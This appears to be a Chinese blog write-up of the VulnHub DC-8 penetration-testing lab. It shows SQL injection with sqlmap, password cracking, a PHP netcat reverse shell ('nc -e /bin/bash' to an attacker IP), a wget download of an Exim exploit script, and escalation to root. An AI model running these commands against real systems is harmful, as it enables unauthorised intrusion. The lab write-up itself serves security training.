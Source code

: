 ```yaml
---
title: DC-8复现
permalink: /archives/54148/
published: 2022-12-01 14:57:00
tags: 
  - vulnhub
  - 渗透测试
---
```


# DC-8复现

## 描述

> DC-8是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战有点混合，既是实际挑战，又是关于在Linux上安装和配置的双因素身份验证是否可以防止Linux服务器被利用的“概念证明”。
>
> 这个挑战的“概念验证”部分是由于Twitter上被问到一个关于双因素身份验证和Linux的问题，也是由于@theart42的建议。
>
> 此挑战的最终目标是绕过双因素身份验证，获取root并读取唯一的标志。
>
> 除非您尝试通过SSH登录，否则您甚至可能不知道安装和配置了双因素身份验证，但它肯定在那里并且正在做它的工作。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确认目标机器的IP以及开启的端口

![image-20221201150628772](./images/image-20221201150628772.png)

访问80端口，点击welcome to DC-8发现这个url有点问题，猜想有sql注入

![image-20221201151645623](./images/image-20221201151645623.png)

扫描目录看看有没有登录口

```bash
dirsearch -u 192.168.71.130 -e * -x 403 --random-agent
```

![image-20221201160557499](./images/image-20221201160557499.png)

## SQl注入

在nid参数后面加入一个`'`后出现了sql报错直接**sqlmap**跑一下

### 爆破数据库

```bash
sqlmap -u "http://192.168.71.130/?nid=1" --dbs
```

得到两个库，其中`information_schema`是为了提供了访问数据库元数据的方式，所以可以暂时忽略

![image-20221201152316983](./images/image-20221201152316983.png)



### 爆破表

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db --tables
```

一共88个表，包含有**users**表，

![image-20221201153542043](./images/image-20221201153542043.png)

![image-20221201153559541](./images/image-20221201153559541.png)

### 爆破列

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users --columns
```

得到16列

![image-20221201153635852](./images/image-20221201153635852.png)

### 爆破字段名

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users -C name,pass,uid --dump
```

得到两个用户名和经过加密的密码，将密码保存好，利用**john**进行爆破

![image-20221201154123064](./images/image-20221201154123064.png)

## 爆破密码

```bash
john dc8_pass.txt
```

爆出一个：turtle

![image-20221201154620496](./images/image-20221201154620496.png)

## 登录后台

爆出密码后尝试利用登录，前面信息收集的时候就有发现其登录入口，经过测试，发现爆破出来的是john的密码

![image-20221201160940053](./images/image-20221201160940053.png)

在`Content->Contact Us->Webform->Form settings`里发现有可利用点，可以写入php代码

![image-20221201161518710](./images/image-20221201161518710.png)

## 反弹shell

编写php文件直接执行命令反弹shell

```php
<?php
exec("nc -e /bin/bash 192.168.71.128 6666");
?> 
```

反弹成功

![image-20221201162252984](./images/image-20221201162252984.png)

切换交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 提权

find查找suid权限的命令

```bash
find / -perm -4000 -print 2>/dev/null
```

![image-20221201162431555](./images/image-20221201162431555.png)

其中的exim4是可利用进行提权的

首先查看exim4的版本

![image-20221201162654433](./images/image-20221201162654433.png)

搜索exim 4.89的漏洞

![image-20221201162930425](./images/image-20221201162930425.png)

复制文件到当前目录

```bash
cp /usr/share/exploitdb/exploits/linux/local/46996.sh hack.sh  
```

利用python起http服务进行传输

```bash
python -m http.server 6666
```

进入tmp文件夹下载文件

```bash
cd /tmp	//tmp文件夹
wget 192.168.71.128:6666/hack.sh	//下载目标文件
```

![image-20221201163259748](./images/image-20221201163259748.png)

但是这个文件是不可执行的，所以要对其赋予执行权限

```
ls -l	//查看当前目录下的所有文件权限
chmod 777 hack.sh	//赋予文件可读、可写和可执行权限
```

![image-20221201163421012](./images/image-20221201163421012.png)

脚本有两种方式，使用第二种利用**netcat**再次进行反弹shell

```bash
./hack.sh -m netcat		//执行脚本
nc -e /bin/bash 192.168.71.128 31337		//反弹shell
```

![image-20221201164356827](./images/image-20221201164356827.png)

## flag

进到根目录下找到flag

![image-20221201164614977](./images/image-20221201164614977.png)